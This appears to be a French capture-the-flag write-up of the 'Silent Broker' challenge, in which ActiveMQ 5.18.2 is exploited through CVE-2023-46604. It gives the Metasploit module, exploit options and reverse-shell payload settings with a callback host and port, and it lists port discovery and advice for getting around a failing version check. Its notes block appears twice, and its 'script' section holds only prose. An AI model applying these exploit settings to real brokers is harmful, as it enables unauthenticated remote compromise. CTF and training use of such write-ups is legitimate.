



# Writeup : broker

Catégorie : web

Date de résolution : 2026-11-15

Technique principale : CVE-2023-46604 OpenWire RCE; Spring ClassPathXmlApplicationContext

Outils observés : Metasploit; OpenWire

Cible : 172.28.14.3:61616

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/broker. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Contexte

# Silent Broker (251) :  RESOLU

FLAG: HLB2026{INTERNAL_SERVICE_RCE_CASE_RELAY_COMPROMISED}

Voie: ActiveMQ 5.18.2 expose sur 172.28.14.3:61616 (OpenWire) -> CVE-2023-46604 (deserialisation non authentifiee).
msf: exploit/multi/misc/apache_activemq_rce_cve_2023_46604, ForceExploit, TARGET Linux, payload cmd/linux/http/x64/meterpreter/reverse_tcp (LHOST 10.140.180.243, SRVPORT 8899).
Session meterpreter root -> /opt/activemq/data/flag.txt.

Decouverte: nmap -p- a revele 1883 (MQTT), 5672 (AMQP), 61613/61614 (STOMP), 61616 (OpenWire) ; STOMP/MQTT anonymes ont servi a confirmer ActiveMQ 5.18.2 et les files du relais (auth/session/credentials).

### Exploitation

target Unix; cmd/unix/reverse_bash; XML Spring distant

### Pourquoi ça marche

ActiveMQ 5.18.2: forcer AutoCheck si le banner annonce 338 octets mais en livre 337; la RCE reste exploitable.

### Pièges

Ne pas conclure à un échec sur Response length mismatch du check; vérifier la réponse et la session.

### Notes locales conservées

# Silent Broker (251) :  RESOLU

FLAG: HLB2026{INTERNAL_SERVICE_RCE_CASE_RELAY_COMPROMISED}

Voie: ActiveMQ 5.18.2 expose sur 172.28.14.3:61616 (OpenWire) -> CVE-2023-46604 (deserialisation non authentifiee).
msf: exploit/multi/misc/apache_activemq_rce_cve_2023_46604, ForceExploit, TARGET Linux, payload cmd/linux/http/x64/meterpreter/reverse_tcp (LHOST 10.140.180.243, SRVPORT 8899).
Session meterpreter root -> /opt/activemq/data/flag.txt.

Decouverte: nmap -p- a revele 1883 (MQTT), 5672 (AMQP), 61613/61614 (STOMP), 61616 (OpenWire) ; STOMP/MQTT anonymes ont servi a confirmer ActiveMQ 5.18.2 et les files du relais (auth/session/credentials).

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/broker
file notes.md flags.txt 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' notes.md 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `aucun fichier autonome` est reproduit ci-dessous sans modification :

```python
Aucun script autonome n’a été conservé dans le dossier local. Les éléments réellement disponibles sont reproduits dans les sections d’analyse et de preuve.
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

Le flag est conservé dans le fichier local flags.txt ou flag.txt. Aucune validation externe supplémentaire n’est affirmée ici.

Flag obtenu : `HLB2026{INTERNAL_SERVICE_RCE_CASE_RELAY_COMPROMISED}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
